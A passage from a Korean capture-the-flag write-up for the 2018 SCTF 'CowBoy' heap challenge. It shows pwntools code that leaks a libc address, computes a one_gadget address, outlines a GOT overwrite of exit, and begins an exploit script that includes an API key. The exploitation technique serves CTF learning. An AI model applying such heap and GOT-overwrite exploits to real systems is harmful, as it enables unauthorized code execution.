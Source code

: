 ```python
s.recvuntil("bin[0]: ")
s.recvuntil(" 0x")
s.recvuntil(" 0x")
real_rand = int(s.recv(12), 16)

real_base = real_rand - rand_off
real_one = real_base + one_off

print "[*] real_base : " + hex(real_base)
print "[*] real_rand : " + hex(real_rand)
print "[*] real_one : " + hex(real_one)
```

{: refdef: style="text-align: center;"}
![rand_got](/img/2018_sctf/CowBoy/08.png)
{: refdef}

`rand`함수를 사용한 이유는 [`rand_got`][`null`] 이런식으로 `null`이 있어야 `func_show`에서 터지지않아요.

~~왠지는 모르겠는데 로컬로 돌릴 때 `func_exit`를 안하면 화면에 출력이 안되더라구요.~~

>[\*] Paused (press any to continue)<br />[\*] real_base : 0x7fc5ef58b000<br />[\*] real_rand : 0x7fc5ef5cf3a0<br />[\*] real_one : 0x7fc5ef5d026a<br />[\*] Closed connection to localhost port 4444

- - -
# 0x02. 공격 방법

저는 `exit_got`에 `one_gadget`을 넣을거에요.

1. 0x01 방법으로 memory leak

2. 다음 청크의 주소를 `exit_got`로 설정

3. `func_fill`로 `exit_got` 대신 `one_gadget`을 넣음

4. `func_exit`

그런데 [1_chunk] - [2_chunk] - [`rand_got`] 이런 상태에서 어떤 청크를 `free`해도 [rand_got]는 항상 남아있어요.

그래서 저는 청크 사이즈를 두 개 사용해서 1~16에서 memory leak을 하고 17~32에선 `exit_got`를 넣어서 `got overwrite`를 할거에요.

`exit_got`를 넣을 때 중요한건 `exit_got`를 가지고있는 주소를 넣어야하고 `rand_got`랑 다르게 주소 다음이 `null`이 아니라서 `func_show`를 하면 터져요.

- - -
# 0x03. 익스플로잇

```python
import json
from pwn import *
#context.log_level = "debug"

HOST = "localhost"
#HOST = "cowboy.eatpwnnosleep.com"
PORT = 4444
#PORT = 14697

############################################

s = remote(HOST, PORT)
a = {
    "apikey" : "5b88ada575f654923442e90a4d3e6bef7ba03ce02a3bc0dec0a0fbbe17d8445f"
	}
if(HOST != "localhost"):
```